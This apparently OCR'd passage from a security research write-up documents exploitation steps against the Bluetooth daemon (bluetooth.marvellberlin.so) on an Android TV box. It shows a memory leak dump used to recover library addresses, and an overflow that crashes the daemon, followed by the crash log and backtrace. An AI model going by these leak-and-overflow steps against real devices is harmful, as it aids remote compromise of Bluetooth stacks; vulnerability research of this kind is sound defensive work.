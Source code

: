 
########################################################################################

GET THE BLUETOOTH LIBRARY BASE ADDRESS

########################################################################################

Using the leak method at mem_offset 28 we are able to find some memory address:

0026 : 00002954 74007400 74006600 58a9292b 74006600 74007400 72002e00 58a9292b 00002954 70007000 74007400 58a9292b 74006600 74007400 74006600 58a9292b : ..)Tt.t.t.f.X.)+t.f.t.t.r...X.)+..)Tp.p.t.t.X.)+t.f.t.t.t.f.X.)+
0027 : 0029546c 00740066 002e0074 a9292b72 00660000 00700066 00740066 a9292b72 0029546c 00740066 00660066 a9292b72 00660000 00740066 002e0074 a9292b72 : .)Tl.t.f...t.)+r.f...p.f.t.f.)+r.)Tl.t.f.f.f.)+r.f...t.f...t.)+r
0028 : 29546c8f 70006600 74006600 292b728f 66000000 74006600 66006600 292b728f 29546c8f 74006600 2e007400 292b728f 66000000 70006600 74006600 292b728f : )Tl.p.f.t.f.)+r.f...t.f.f.f.)+r.)Tl.t.f...t.)+r.f...p.f.t.f.)+r.
0029 : 00660066 00660000 2b728f01 00000000 00660000 00740074 2b728f01 00660066 00660000 00660066 2b728f01 00000000 00660000 00660000 2b728f01 00740074 : .f.f.f..+r.......f...t.t+r...f.f.f...f.f+r.......f...f..+r...t.t
0030 : 66006600 66000000 728f0100 00000000 66000000 66006600 728f0100 74007400 66006600 66000000 728f0100 00000000 66000000 66000000 728f0100 74007400 : f.f.f...r.......f...f.f.r...t.t.f.f.f...r.......f...f...r...t.t.

We can see leaks 29546c8f and 292b728f which give address 0x8f6c5429 and 0x8f722b29 in little endian

Using the overflow method with those address crash the deamon in bluetooth.marvellberlin.so with the following crash dump:

libc    : Fatal signal 11 (SIGSEGV), code 1, fault addr 0x10 in tid 4151 (bt_workqueue)
DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
DEBUG   : Build fingerprint: 'BouyguesTelecom/BouygtelTV/HMB4213H:8.0.0/CALIFORNIE/6.30.13:user/release-keys'
DEBUG   : Revision: '0'
DEBUG   : ABI: 'arm'
DEBUG   : pid: 4107, tid: 4151, name: bt_workqueue  >>> com.android.bluetooth <<<
DEBUG   : signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x10
DEBUG   : Cause: null pointer dereference
DEBUG   :     r0 00000008  r1 8c35db29  r2 8b006300  r3 00000020
DEBUG   :     r4 a6405578  r5 8b006300  r6 00000020  r7 ff183456
DEBUG   :     r8 a6405560  r9 00000006  sl 00000002  fp 8affef70
DEBUG   :     ip 00001e7e  sp 8affef60  lr 8c3b18e9  pc 8c35db3c  cpsr 200f0030
DEBUG   : 
DEBUG   : backtrace:
DEBUG   :     #00 pc 000d5b3c  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZN4base8internal7InvokerINS0_9BindStateIMN12_GLOBAL__N_125BleAdvertisingManagerImplEFvhhhhPhNS_8CallbackIFvhELNS0_8CopyModeE1EEEEJNS0_17UnretainedWrapperIS4_EEbEEEFvhhhS5_S9_EE3RunEPNS0_13BindStateBaseEOhSJ_SJ_OS5_OS9_+19)
DEBUG   :     #01 pc 001298e7  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z11list_appendP6list_tPv+70)
DEBUG   :     #02 pc 0010312d  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z24l2c_link_check_send_pktsP12t_l2c_linkcbP9t_l2c_ccbP6BT_HDR+36)
DEBUG   :     #03 pc 0010477f  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z16l2c_rcv_acl_dataP6BT_HDR+2190)
DEBUG   :     #04 pc 001290df  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL22internal_dequeue_readyPv+46)
DEBUG   :     #05 pc 0012b535  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL11run_reactorP9reactor_ti+216)
DEBUG   :     #06 pc 0012b431  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_Z13reactor_startP9reactor_t+44)
DEBUG   :     #07 pc 0012c729  /system/vendor/lib/hw/bluetooth.marvellberlin.so (_ZL10run_threadPv+136)
DEBUG   :     #08 pc 00047f17  /system/lib/libc.so (_ZL15__pthread_startPv+22)
DEBUG   :     #09 pc 0001b1dd  /system/lib/libc.so (__start_thread+32)

